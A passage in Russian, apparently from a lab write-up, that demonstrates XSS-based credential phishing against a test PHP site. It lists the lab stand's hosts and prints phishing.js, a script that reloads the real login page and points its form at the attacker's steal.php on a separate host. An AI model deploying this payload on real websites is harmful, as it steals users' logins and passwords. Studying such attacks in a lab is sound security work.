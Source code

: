 Таким образом, пользователь вводит свои учётные данные в привычный интерфейс, не подозревая, что в этот момент они перенаправляются злоумышленнику.

---

### 🔹 Лабораторный стенд

**Таблица 2 — Конфигурация стенда для фишинговой атаки**

| IP-адрес / Порт    | Роль                  | Описание |
|---------------------|----------------------|----------|
| `192.168.0.69:2222` | Веб-сервер            | Сайт организации: регистрация, авторизация, личный кабинет |
| `192.168.0.69:1111` | pgAdmin4              | Веб-интерфейс администрирования PostgreSQL |
| `192.168.0.69:5432` | PostgreSQL            | База данных сайта |
| `192.168.0.89`      | Клиент *(Windows 10)* | Жертва атаки — открывает фишинговую ссылку |
| `192.168.0.114:1111`| Злоумышленник *(Debian)* | Хостинг `phishing.js` и `steal.php`, приём логинов/паролей в `stolen_creds.txt` |

Машина с микросервисной архитектурой остается точно такая же
Стенд развёрнут в локальной сети с использованием Docker Compose и виртуальных машин. Веб-приложение состоит из набора PHP-скриптов:
- `register.php` — регистрация;  
- `login.php` — авторизация;  
- `dashboard.php` — личный кабинет;  
- `logout.php` — завершение сессии;  
- `db.php` — подключение к PostgreSQL.

---

### 🛠 Реализация атаки

Уязвимость **CWE-79 (XSS)** используется для внедрения мини-скрипта, который динамически подгружает оригинальную страницу входа и перенастраивает её форму. Введённые пользователем данные незаметно отправляются на сервер злоумышленника.

**phishing.js**
```javascript
fetch("login.php")
  .then(res => res.text())
  .then(data => {
    document.getElementsByTagName("html")[0].innerHTML = data;
    let form = document.getElementsByTagName("form")[0];
    if (form) {
      form.action = "http://192.168.0.114:1111/steal.php";
      form.method = "post";
    }
  });
```

Скрипт phishing.js загружает содержимое login.php, заменяет DOM текущего документа и подменяет атрибуты формы: action указывает на steal.php злоумышленника, метод передачи данных меняется на POST
